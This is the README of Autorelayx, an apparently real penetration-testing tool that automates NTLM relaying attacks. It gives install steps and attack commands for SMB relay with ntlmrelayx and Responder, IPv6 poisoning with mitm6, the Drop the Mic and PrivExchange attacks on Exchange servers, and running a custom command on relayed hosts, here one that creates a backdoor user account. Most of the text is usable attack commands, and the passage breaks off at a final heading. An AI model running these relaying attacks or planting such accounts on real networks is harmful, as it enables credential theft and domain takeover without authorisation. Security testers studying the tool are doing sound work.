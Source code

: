 Autorelayx
=======

Automates the process of setting up advanced relaying techniques.

# Installation

    sudo apt-get install tcpdump (required only for mitm6 domain filtering)
    git clone --recurse-submodules https://github.com/Coalfire-Research/autorelayx
    cd autorelayx
    sudo pipenv install
    sudo pipenv shell

# Usage

## SMB relay
Hostlist should be formatted in CIDR notation (192.168.0.0/24) or individual IPs separated by a newline. This will
scan the hosts in the hostlist for any that do not have SMB signing enabled and write them to unsigned-smb-hosts.txt.
Runs ntlmrelayx.py and Responder.

```python autorelayx.py -l hostlist.txt```

## IPv6 poisoning
This will run ntlmrelayx, Responder, and mitm6. It is suggested to use the -d <domain> argument to limit mitm6's responses.

```python autorelayx.py -l hostlist.txt -6 -d CONTOSO```

## Relaying to specified targets file and running a custom command once successful
```python autorelayx.py -tf targets_file.txt -c "net user /add danmcinerney P@ssword123456"```

## Drop the Mic and PrivExchange attacks
Script will test the exchange servers in exchange_servers.txt for vulnerability to SpoolService RPC abuse for the Drop the Mic attack. Should none of the servers be vulnerable, the script will move on to attempt the authenticated PrivExchange attack.
```python autorelayx.py -dc 1.2.3.4 -u LAB/dan:P@ssw0rd@exchangeServer.lab.local -ef exchange_servers.txt```

## Authenticationless PrivExchange
